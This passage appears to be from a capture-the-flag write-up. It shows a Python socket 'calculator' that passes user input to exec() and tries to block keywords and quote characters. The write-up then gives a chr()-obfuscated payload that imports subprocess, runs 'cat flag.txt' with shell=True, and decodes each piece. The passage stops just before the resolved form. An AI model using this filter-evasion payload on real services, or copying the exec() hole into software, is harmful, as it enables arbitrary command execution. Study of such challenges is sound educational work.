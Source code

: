 ```python
            conn.sendall(b"Not allowed, killing\n")
            return

    # Check for forbidden characters.
    for character in ['\'', '\"']:
        if character in text.lower():
            conn.sendall(b"Not allowed, killing\n")
            return

    try:
        exec('print(' + text + ')')
    except Exception as e:
        conn.sendall(("Error: " + str(e) + "\n").encode())

def main():
    host = '0.0.0.0'
    port = 1337
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((host, port))
        s.listen(1)
        print(f"Listening on {host}:{port}")
        conn, addr = s.accept()  # Handle one connection.
        with conn:
            print(f"Connection from {addr}")
            handle_client(conn)
    sys.exit(0)

if __name__ == "__main__":
    main()
```

This is somehow difficult since the calculator blocks some keywords such as `cat` or `ls` therefore obfuscation is necessary.

Payload used:

```
getattr(__builtins__, chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))(chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)).check_output([chr(99)+chr(97)+chr(116), chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)], shell=True)
```

Breaking it down:

```
chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)
= "__import__"

chr(117)+chr(98)+chr(112)+chr(114)+chr(111)+chr(99)+chr(101)+chr(115)+chr(115)
= "subprocess"

chr(99)+chr(97)+chr(116)
= "cat"

chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)
= "flag.txt"
```
The resolved version:
